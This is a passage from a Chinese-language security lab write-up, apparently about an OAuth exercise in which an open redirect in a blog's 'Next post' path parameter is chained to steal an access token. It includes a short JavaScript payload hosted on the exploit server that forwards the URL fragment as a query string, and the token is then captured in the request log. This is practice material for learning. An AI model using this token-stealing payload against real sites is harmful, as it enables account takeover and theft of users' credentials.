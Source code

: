 [![](assets/1706059995-74c8c80761ea5203abb17882493ffe9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122233700-15a5e4b6-b93c-1.png)  
随后我们在查看博客时发现点击"Next post"时会发现这里的 path 参数竟然存在开放式重定向  
[![](assets/1706059995-6052dc64a76e7863d1635014b8fbfe6e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122233712-1c84502e-b93c-1.png)  
随后我们构造和上一个靶场一样的参数并在漏洞利用载荷服务器中托管以下内容

```bash
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

[![](assets/1706059995-811ce1a6b0627bd1b3e2129652ee644f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122233731-27f1c43c-b93c-1.png)  
分发请求后我们可以看到如下请求记录，其中包含了我们的 accesstoken 参数，说明这里的 token 可以被带出来
